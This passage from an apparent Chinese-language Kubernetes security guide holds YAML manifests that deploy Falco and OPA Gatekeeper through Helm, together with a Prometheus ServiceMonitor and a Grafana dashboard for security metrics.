        requests:
          cpu: "100m"
          memory: "128Mi"
        limits:
          cpu: "500m"
          memory: "512Mi"

---
# Falco - 运行时威胁检测
apiVersion: helm.cattle.io/v1
kind: HelmChart
metadata:
  name: falco
  namespace: security-tools
spec:
  chart: falco
  repo: https://falcosecurity.github.io/charts
  version: "3.6.0"
  values:
    falco:
      rules_file:
      - /etc/falco/falco_rules.yaml
      - /etc/falco/falco_rules.local.yaml
      - /etc/falco/k8s_audit_rules.yaml
    driver:
      enabled: true
      kind: ebpf

---
# OPA Gatekeeper - 策略执行
apiVersion: helm.cattle.io/v1
kind: HelmChart
metadata:
  name: gatekeeper
  namespace: security-tools
spec:
  chart: gatekeeper
  repo: https://open-policy-agent.github.io/gatekeeper/charts
  version: "3.14.0"
  values:
    replicas: 2
    auditInterval: 60
    constraintViolationsLimit: 20

---
# 安全监控集成配置
apiVersion: monitoring.coreos.com/v1
kind: ServiceMonitor
metadata:
  name: security-tools-monitor
  namespace: security-tools
spec:
  selector:
    matchLabels:
      app: security-monitoring
  endpoints:
  - port: metrics
    interval: 30s
    path: /metrics
  namespaceSelector:
    matchNames:
    - security-tools

---
# 统一安全仪表板
apiVersion: grafana.integreatly.org/v1beta1
kind: GrafanaDashboard
metadata:
  name: unified-security-dashboard
  namespace: security-tools
spec:
  json: |
    {
      "dashboard": {
        "title": "统一安全监控仪表板",
        "panels": [
          {
            "title": "安全工具健康状态",
            "type": "stat",
            "targets": [
              {"expr": "up{job=\"trivy-operator\"}", "legendFormat": "Trivy Operator"},
              {"expr": "up{job=\"falco\"}", "legendFormat": "Falco"},
              {"expr": "up{job=\"gatekeeper\"}", "legendFormat": "Gatekeeper"}
            ]
          },
          {
            "title": "安全事件趋势",
            "type": "graph",
            "targets": [
              {"expr": "rate(falco_events_total[5m])", "legendFormat": "威胁事件"},
              {"expr": "rate(trivy_image_vulnerabilities_total[5m])", "legendFormat": "漏洞发现"},
              {"expr": "rate(gatekeeper_violations_total[5m])", "legendFormat": "策略违规"}
            ]
          },
          {
            "title": "安全评分",
            "type": "gauge",
            "targets": [
              {"expr": "security_posture_score", "legendFormat": "当前安全评分"}
            ]
          }
        ]
      }
    }
```

---

**表格底部标记**: Kusheet Project | 作者: Allen Galler (allengaller@gmail.com) | 最后更新: 2026-02 | 版本: v1.25-v1.32 | 质量等级: ⭐⭐⭐⭐⭐ 专家级